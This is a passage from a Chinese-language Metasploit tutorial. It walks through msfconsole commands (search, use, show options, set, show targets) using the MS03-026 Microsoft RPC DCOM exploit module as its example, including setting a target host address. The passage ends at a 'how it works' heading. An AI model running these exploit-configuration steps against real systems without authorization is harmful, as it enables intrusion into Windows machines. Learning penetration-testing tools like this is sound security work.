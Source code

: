 ```
msf > search ms03_026_dcom
Matching Modules
================
Name Disclosure Date Rank Description
---- --------------- ---- -----------
exploit/windows/
dcerpc/ms03_026_dcom 2003-07-16 great Microsoft RPC DCOM 
```

+   `msf > use exploit:` 此命令用于设置任何攻击为活动状态并准备使用。命令以以下方式传递：

msf > use exploit name

执行此命令后，提示符也会更改为攻击类型：

```
msf > use exploit/windows/dcerpc/ms03_026_dcom
msf exploit(ms03_026_dcom) > 
```

+   `show options:` 此命令用于查看正在使用的攻击的可用选项或参数。各种参数包括主机 IP、端口、线程等。标记为`yes`的参数必须有一个值才能执行攻击。

```
msf exploit(ms03_026_dcom) > show options
Module options (exploit/windows/dcerpc/ms03_026_dcom):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOST yes The target address
RPORT 135 yes The target port 
```

+   `set:` 此命令用于在使用的攻击中设置参数的值。它用于为使用的特定攻击设置有效载荷。命令可以以以下方式传递：

`msf > set parameter-name parameter-value`

同样，我们也可以使用`unset`命令：

```
msf exploit(ms03_026_dcom) > set RHOST 102.168.56.102
RHOST => 102.168.56.102
msf exploit(ms03_026_dcom) > 
```

+   还有名为`setg`和`unsetg`的可选命令。当我们需要在`msfconsole`中全局设置参数值时，可以使用这些命令。因此，它可以避免我们重新输入相同的值。

+   `show targets:` 每个攻击都是针对特定目标服务的。此命令显示攻击可以使用的可能目标的信息：

```
msf exploit(ms03_026_dcom) > show targets
Exploit targets:
Id Name
-- ----
0 Windows NT SP3-6a/2000/XP/2003 Universal 
```

在这里，我们可以看到`dcom`攻击适用于多种 Windows 机器。

## 它是如何工作的...
